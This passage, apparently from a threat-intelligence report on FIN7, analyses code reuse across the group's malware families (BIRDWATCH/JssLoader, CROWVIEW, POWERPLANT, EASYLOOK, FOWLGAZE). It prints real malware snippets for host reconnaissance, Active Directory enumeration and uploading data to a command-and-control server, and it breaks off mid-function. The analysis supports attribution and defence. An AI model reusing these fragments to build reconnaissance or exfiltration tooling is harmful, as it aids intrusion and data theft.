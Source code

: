 a .NET-based downloader which retrieves payloads over HTTP, writing them to disk and then executing them. BIRDWATCH uploads reconnaissance information from targeted systems as well, which includes running processes, software installed, network configuration, web browser information and active directory data.BIRDWATCH is often referred to collectively as “JssLoader”; however, multiple variations of BIRDWATCH exist which we track as separate code families. One variant of BIRDWATCH is CROWVIEW, which is also .NET-based, but has enough code differences from prototypical BIRDWATCH that we cluster it separately. Unlike BIRDWATCH, CROWVIEW can house an embedded payload, can self-delete, supports additional arguments and stores a slightly different configuration. FIN7 has implemented similar or exact functionality in different programming languages, observed in various code families several times over the past few years. Similar to EASYLOOK, which has both JScript and PowerShell variants, BIRDWATCH and CROWVIEW have separate versions implemented in C++. This data point of code reuse and overlaps aided our technical attribution throughout multiple UNC merges, when combined with additional infrastructure and tradecraft analysis.In this first example, programmatic collection of the BIOS (Basic Input Output System) serial number is shown across POWERPLANT and CROWVIEW code families.Figure 19: C# Code Snippet from FIN7-attributed CROWVIEW, a variant of BIRDWATCHprivate static string GetBiosSerial(){                  string result = "BIOS UNKNOWN";                  try                  {                                    ManagementObjectSearcher managementObjectSearcher = new ManagementObjectSearcher("SELECT SerialNumber FROM Win32_BIOS");                                    ManagementObjectCollection managementObjectCollection = managementObjectSearcher.Get();                                    foreach (ManagementBaseObject managementBaseObject in managementObjectCollection)                                    {                                                      ManagementObject managementObject = (ManagementObject)managementBaseObject;                                                      result = (string)managementObject["SerialNumber"];                                    }                  }                  catch                  {                  }                  return result;}Figure 20: PowerShell Code Snippet from FIN7-attributed POWERPLANTfunction Get-BiosSerial() {    $sn = "BIOS UNKNOWN"    $_sn = ""    try {        $mSearcher = Get-WmiObject -Query "SELECT SerialNumber FROM Win32_BIOS"        foreach ($o in $mSearcher) {            if ($o.Properties.Name -eq "SerialNumber") {                $_sn = $o.Properties.Value            }        }    }    catch {}    if ([String]::IsNullOrEmpty($_sn) -eq $false) { $sn = $_sn }    return "$sn";} System enumeration data formatting overlaps also exist between FOWLGAZE and EASYLOOK. Both code families implement near identical system surveys, with the shared usage of keys such as “pc_domain”, “pc_dns_host_name”, “pc_model” and “no_ad”.Figure 21: Data Collection JSON Format Snippet of FOWLGAZE("JssLoader") {"host":"<HOSTNAME>", "domain": "<DOMAIN>", "user":"<USERNAME>", "processes": [<PROCESS_LIST>] ,"desktop_file_list": [<FILE_LIST>] ,"adinfo": {"adinformation":"no_ad", "part_of_domain":"no", "pc_domain":"", "pc_dns_host_name":"", "pc_model":""}}Figure 22: Data Collection Code Snippet of EASYLOOK (Reconnaissance Module)$result += ('username***' + $env:USERNAME)        $result += ('hostname***' + $env:COMPUTERNAME)        $elevated = $(whoami /groups).Contains("12288")        If ($elevated) {            $result += 'yes'        }        Else {            $result += 'elevated***' + 'no'        }        $ad = get_active_directory_information        if ($ad) {            $result += ('adinformation***' + $ad)        } else {            $result += ('adinformation***no_ad')        }        $csRequest = Get-WmiObject Win32_ComputerSystem        $csRequest.PartOfDomain        If ($csRequest.PartOfDomain) {            $result += ('part_of_domain***yes')        }        else {             $result += ('part_of_domain***no')        }        $result += 'pc_domain***' + $csRequest.Domain        $result += 'pc_dns_host_name***' + $csRequest.DNSHostName                   $result += 'pc_model***' + $csRequest.ModelA final code reuse example is usage of "theAnswer", defined as variable within program functionality of POST requests to C2 controllers for both CROWVIEW and POWERPLANT, as shown in Figure 23 and Figure 24.Figure 23: C# Code Snippet from FIN7-attributed CROWVIEW and BIRDWATCH (JssLoader)public void Put(string theAnswer){                  AppHttp.wCli.QueryString.Clear();                  AppHttp.wCli.QueryString.Add("type", "put");                  string text = Convert.ToBase64String(Encoding.ASCII.GetBytes(AppParams.ProgID)).Replace("+", "***");                  string text2 = Convert.ToBase64String(Encoding.ASCII.GetBytes("put")).Replace("+", "***");                  string body = string.Concat(new string[]                  {                                    "id^^^",                                    text,                                    "&type^^^",                                    text2,                                    "&",                                    theAnswer                  });                  string text3 = this.HttpUpload(AppParams.URL_PutAnswer, body);}Figure 24: PowerShell Code Snippet from FIN7-attributed POWERPLANTFunction Send-ToConsole([String] $theAnswer) {    if ([String]::IsNullOrEmpty($theAnswer)) { return }     $_rc = ""    try {        $_wc = New-Object System.Net.WebClient        $_wc.QueryString.Add("id", $script:myID)        $_wc.Headers.Add("Content-type", "text/html")        $_wc.Headers.Add("Accept", "text/html")        $_rc =
